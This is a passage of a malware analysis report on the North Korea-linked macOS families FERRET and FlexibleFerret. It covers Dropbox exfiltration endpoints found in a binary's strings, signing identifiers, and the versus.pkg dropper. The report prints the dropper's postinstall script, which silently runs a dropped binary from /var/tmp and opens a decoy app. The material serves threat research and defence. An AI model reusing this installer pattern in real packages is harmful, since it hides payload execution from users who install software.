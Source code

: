 </figure>

Another commonality between FERRET and other recent DPRK campaigns is the use of Dropbox for exfiltration and the use of `api.ipify.org` to resolve the host’s public IP.

```
21  22   3.__TEXT.__cstring        ascii   https://api.ipify.org
39  40   3.__TEXT.__cstring        ascii   https://api.dropboxapi.com/oauth2/token
45  46   3.__TEXT.__cstring        ascii   https://content.dropboxapi.com/2/files/upload

```

## FlexibleFerret | An Expanded Malware Family Set

Prior to Apple pushing XProtect version 5286, SentinelLABS had been tracking the malware identified by previous researchers and analysing a variant of the `ChromeUpdate` samples with the identifier `Mac-Installer.InstallerAlert`. Unlike the previous samples, this malware was signed with a valid Apple Developer signature (`VFYPGAKSLY`) and Team ID (`58CD8AD5Z4`). Pivoting off this led us to another previously unseen infection vector and set of related samples.

The dropper is an Apple Installer package called `versus.pkg` (388ac48764927fa353328104d5a32ad825af51ce), containing two applications, `InstallerAlert.app` and `versus.app`, and a standalone binary called `zoom`, as well as a `postinstall.sh` script in the parent folder.

<figure>

![File contents of the FlexibleFerret dropper, versus.pkg ](https://www.sentinelone.com/wp-content/uploads/2025/02/FlexibleFerret_4.jpg)

<figcaption>

File contents of the FlexibleFerret dropper, _versus.pkg_

</figcaption>

</figure>

After grabbing elevated privileges, the installer package uses the postinstall script to drop and execute several components in `/var/tmp/`. The postinstall script is a bash script that also logs its progress to a file in the separate `/private/tmp/` folder called `postinstall.log`.

```
#!/bin/bash
# Log the start of the script
echo "$(date): Running post-installation script..." >> /tmp/postinstall.log

# Check if the zoom file exists and execute it
if [ -f /var/tmp/zoom ]; then
echo "$(date): Zoom file exists, executing..." >> /tmp/postinstall.log
/var/tmp/zoom >> /tmp/postinstall.log 2>&1 &
else
echo "$(date): Zoom file not found" >> /tmp/postinstall.log
fi

# Wait for 2 seconds
sleep 2

# Open the InstallerAlert.app if it exists
if [ -d "/var/tmp/InstallerAlert.app" ]; then
echo "$(date): Opening InstallerAlert.app..." >> /tmp/postinstall.log
open "/var/tmp/InstallerAlert.app" >> /tmp/postinstall.log 2>&1
else
echo "$(date): InstallerAlert.app not found" >> /tmp/postinstall.log
fi

# Wait for 2 seconds
sleep 2

# Log the end of the script
```